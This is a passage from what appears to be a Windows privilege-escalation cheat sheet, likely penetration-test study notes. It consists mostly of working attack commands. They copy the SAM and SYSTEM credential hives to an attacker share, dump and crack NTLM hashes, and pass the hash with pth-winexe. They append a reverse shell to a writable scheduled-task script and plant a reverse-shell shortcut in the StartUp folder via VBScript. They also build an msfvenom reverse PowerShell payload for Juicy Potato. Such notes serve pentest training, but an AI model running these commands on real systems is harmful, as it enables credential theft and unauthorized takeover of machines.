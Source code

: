 4.  `winexe -U 'admin%password123' //TARGETIP cmd.exe`

### SAM (Security Account Manager)

1. `.\winPEASany.exe quiet cmd searchfast filesinfo`
2. `copy C:\Windows\Repair\SAM \\MYIP\MYDIRECTORY\` and `copy C:\Windows\Repair\SYSTEM \\MYIP\MYDIRECTORY\` copy the SAM and KEY(SYSTEM) to local kali
3. `git clone https://github.com/Neohapsis/creddump7.git` download from kali
4.  `python2 creddump7/pwdump.py SYSTEM SAM` Run in the location of your copied SAM, SYSTEM file 
5.   `hashcat -m 1000 --force NTLMHASH(2ndpart) /usr/share/wordlists/rockyou.txt` and then use `winexe`.
6.   Or without cracking the hash-> pass the hash
7.   `pth-winexe --system -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da(ENTIREHASH)' //TARGETIP cmd.exe`


### Scheduled Tasks
1. Check directories that we have not seen
2. `schtasks /query /fo LIST /v` OR Powershell 
3.  `C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1 ` access check  if we can write
4.  start a netcat listener
5.  `echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1` copy our revershell location to script

### Insecure GUI Apps (Some older version)

### Startup Apps 
1. `.\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"` check permissions on the StartUp directory eg (BUILTIN\Users group)
2. create a vb script eg CreatShortCut.vbs in kali and transfer. (Change path accordingly)
```
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start
Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save

```
3. `cscript CreateShortcut.vbs` run the script 
4. Start a listener on Kali, then log in as the admin user to trigger the exploit

### Exploit Installed Application 
1.  `tasklist /v` Manually Enumerate all the task list or automatically by the following programs
2.   `.\seatbelt.exe NonstandardProcesses `
3.  ` .\winPEASany.exe quiet procesinfo`  
4.  If you find an interesting process, identify the ***version*** by running `<SERVICENAME> /?` or `<SERVICENAME> -h' or text files and config.
5.  Go to Exploit DB https://www.exploit-db.com/?type=local&platform=windows  and see if there are any.

### Token Impersonation 
1. Windows 7
2. `whoami /priv` to see `SeImpersonatePrivilege` is allowed
3. Transfer Juicy Potato.exe 
4. `msfvenom -p cmd/windows/reverse_powershell lhost=192.168.119.159 lport=9999 > myshell.bat ` create a revershell bat 
5. Transfer the bat
6. `JuciyPotato.exe -t * -p myshell.bat -l 9999` (port has to be same as reverseshell)
